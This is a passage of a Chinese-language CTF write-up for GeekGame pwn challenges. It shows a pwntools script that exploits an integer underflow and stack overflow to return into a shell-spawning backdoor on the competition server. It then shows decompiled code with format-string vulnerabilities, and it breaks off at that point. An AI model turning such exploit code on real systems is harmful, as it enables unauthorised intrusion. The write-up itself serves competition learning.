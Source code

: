 ```c
  return result;
}

int backdoor()
{
  return system("/bin/sh");
}
```

有一个 backdoor 函数，那目标就是溢出栈，将 return address 覆盖成 backdoor 函数的地址。

栈底部的变量在 0x7C 的位置，但是我们只能输入 100 字节，不够覆盖 return address。
那有没有办法绕过呢？答案是有的，告诉它我们要输入 0 个字节，get_line 函数在判断已写入字节数时就会溢出，我们就能写入足够大的 buffer 了。

接下来就是一个传统的 stack overflow 任务了，注意需要将 rsp 按16字节对齐，不然调不了 system。

```python
from pwn import *
context.clear(arch='amd64')
elf = ELF('./challenge1')

rop = ROP(elf)
rop.raw('A' * 120)
# ret
rop.call(0x40101a)
rop.call(elf.symbols['backdoor'])
p = remote('prob10.geekgame.pku.edu.cn', 10010)
p.sendline(b'TOKEN')
p.recvuntil(b'Welcome to babystack:)')
p.sendline(b'0')
p.recvuntil(b'please input your string:')
p.sendline(rop.chain())
p.interactive()
```

### Flag 2

同样先看看保护措施和代码。
保护措施和上一问一样，代码简单了不少，~~pwn 题感觉代码越少，题目越烦。~~

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[64]; // [rsp+0h] [rbp-78h] BYREF
  char s[56]; // [rsp+40h] [rbp-38h] BYREF

  init(argc, argv, envp);
  puts("please enter your flag~(less than 0x20 characters)");
  __isoc99_scanf("%s", s);
  if ( (int)strlen(s) > 32 )
  {
    puts("byebye~");
  }
  else
  {
    printf("this is your flag: ");
    printf(s);
    puts("\nWhat will you do to capture it?:");
    __isoc99_scanf("%s", v4);
    puts("so you want to ");
    printf(v4);
    printf("\n and your flag again? :");
    __isoc99_scanf("%s", s);
    puts(s);
    puts("go0d_j0b_und_go0d_luck~:)");
  }
```